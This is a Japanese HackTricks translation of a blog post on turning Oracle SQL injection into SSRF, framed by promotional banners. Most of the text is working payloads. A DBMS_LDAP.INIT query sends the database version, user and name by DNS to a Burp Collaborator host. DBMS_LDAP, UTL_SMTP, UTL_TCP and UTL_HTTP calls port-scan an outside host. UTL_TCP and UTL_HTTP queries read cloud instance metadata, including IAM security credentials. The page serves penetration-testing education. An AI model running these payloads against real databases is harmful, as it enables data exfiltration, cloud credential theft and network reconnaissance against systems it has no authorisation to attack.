 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**この投稿は、[https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)から削除された投稿のWayback Machineコピーを提供します。**

## SSRF

Oracleを使用してOut of Band HTTPおよびDNSリクエストを行うことはよく文書化されていますが、SQLデータを抽出する手段としても利用されます。これらの技術/関数を常に変更して、他のSSRF/XSPAを実行することができます。

Oracleのインストールは非常に面倒な場合があります。特に、コマンドを試すために迅速なインスタンスをセットアップしたい場合はなおさらです。私の友人であり同僚の[Appsecco](https://appsecco.com)の[Abhisek Datta](https://github.com/abhisek)が、私に[https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c)を教えてくれました。これにより、t2.largeのAWS UbuntuマシンとDocker上にインスタンスをセットアップすることができました。

私は、ブログ投稿の期間中にOracleをネイティブインストールとして完全なネットワークアクセスで模倣できるように、`--network="host"`フラグを使用してdockerコマンドを実行しました。
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### URLまたはホスト名/ポート番号指定をサポートするOracleパッケージ <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

ホストとポートの指定をサポートするパッケージや関数を見つけるために、[Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html)でGoogle検索を行いました。具体的には、
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
検索は以下の結果を返しました（すべてがアウトバウンドネットワークを実行するために使用できるわけではありません）

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

この粗い検索は明らかに `DBMS_LDAP` のようなパッケージをスキップしています（これはホスト名とポート番号を渡すことを許可します）[ドキュメントページ](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)は単に[別の場所](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)にあなたを指し示します。したがって、私が見逃したかもしれないアウトバウンドリクエストを行うために悪用できる他のOracleパッケージがあるかもしれません。

いずれにせよ、上記で発見しリストしたいくつかのパッケージを見てみましょう。

**DBMS\_LDAP.INIT**

`DBMS_LDAP` パッケージはLDAPサーバーからデータにアクセスすることを許可します。`init()` 関数はLDAPサーバーとのセッションを初期化し、ホスト名とポート番号を引数として取ります。

この関数は以前にDNSを介してデータの抽出を示すために文書化されています。以下のように
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
しかし、この関数はホスト名とポート番号を引数として受け取るため、ポートスキャナーのように機能させることもできます。

いくつかの例を示します。
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` は、ポートが閉じていることを示しており、セッション値はポートが開いていることを指しています。

**UTL\_SMTP**

`UTL_SMTP` パッケージは、SMTPを介して電子メールを送信するために設計されています。[Oracleのドキュメントサイトに提供されている例では、このパッケージを使用して電子メールを送信する方法が示されています](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478)。しかし、私たちにとって興味深いのは、ホストとポートの仕様を提供する能力です。

粗い例は、タイムアウトが2秒の `UTL_SMTP.OPEN_CONNECTION` 関数で以下に示されています。
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout` はポートが開いているが、SMTP接続が確立されていないことを示し、`ORA-29278: SMTP transient error: 421 Service not available` はポートが閉じていることを示します。

**UTL\_TCP**

`UTL_TCP` パッケージとその手続きおよび関数は、[サービスとのTCP/IPベースの通信を可能にします](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)。特定のサービス用にプログラムされている場合、このパッケージはネットワークへの侵入や、TCP/IP接続のすべての側面を制御できるため、完全なサーバーサイドリクエストを実行する手段となることがあります。

[Oracleのドキュメントサイトの例では、このパッケージを使用して生のTCP接続を作成し、ウェブページを取得する方法が示されています](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)。これをもう少し簡略化して、メタデータインスタンスや任意のTCP/IPサービスにリクエストを送信するために使用できます。
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
興味深いことに、生のTCPリクエストを作成する能力により、このパッケージはすべてのクラウドプロバイダーのインスタンスメタデータサービスをクエリするためにも使用できます。メソッドタイプと追加ヘッダーはすべてTCPリクエスト内で渡すことができます。

**UTL\_HTTPとWebリクエスト**

おそらく、すべてのOut of Band Oracle SQL Injectionチュートリアルで最も一般的で広く文書化された技術は、[`UTL_HTTP`パッケージ](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070)です。このパッケージは、文書によって次のように定義されています - `UTL_HTTPパッケージは、SQLおよびPL/SQLからHypertext Transfer Protocol (HTTP) コールアウトを行います。これを使用して、HTTPを介してインターネット上のデータにアクセスできます。`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
あなたはさらに、次のようなクエリを使用して、基本的なポートスキャンを実行することもできます。
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` または `TNS:operation timed out` は、TCPポートが閉じていることを示すサインであり、`ORA-29263: HTTP protocol error` またはデータは、ポートが開いていることを示すサインです。

私が過去に使用した別のパッケージは、さまざまな成功を収めた [`HTTPURITYPE` Oracle 抽象型の `GETCLOB()` メソッド](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) で、URLと対話し、HTTPプロトコルをサポートします。`GETCLOB()` メソッドは、URLからのGETレスポンスを [CLOBデータ型](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) として取得するために使用されます。[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**Telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
